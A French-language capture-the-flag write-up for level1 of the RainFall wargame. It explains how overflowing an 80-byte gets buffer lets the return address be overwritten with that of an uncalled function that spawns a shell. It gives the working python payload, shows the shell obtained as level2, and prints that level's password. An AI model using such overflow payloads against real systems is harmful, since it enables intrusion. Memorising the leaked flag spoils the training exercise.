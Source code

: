 # Level 1

En ouvrant le binaire level1 dans cutter on voit que le main contiens un buffer de 0x50 -> 80 qui est charger de recevoir le résultat du get qui lit l'entré standard après l'execution du programme. On remarque que si on dépasse ce buffer le programme segfault.

```
level1@RainFall:~$ ./level1
kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkk
Segmentation fault (core dumped)
level1@RainFall:~$ 
```
En regradant on remarque egalement qu'il y a une fonction non-appeler qui execute un sh a l'adresse *0x08048444*. Il faut donc faire en sorte de depasser le buffer pour ecraser l'EIP et la remplacer par notre fonction. Pour ce fair on cree un payload qui affiche 76 caractere (80 - 4 pour laddresse mémoire de la fonction) et d'y ajouter l'adresse de la fonction en "little-endian" ce qui donne : "\x44\x84\x04\x08". ensuite il suffit de le passer a notre programme.

```
level1@RainFall:~$ python -c 'print "a"*76 + "\x44\x84\x04\x08"' > /tmp/payload
evel1@RainFall:~$ cat /tmp/payload - | ./level1 
Good... Wait what?

whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```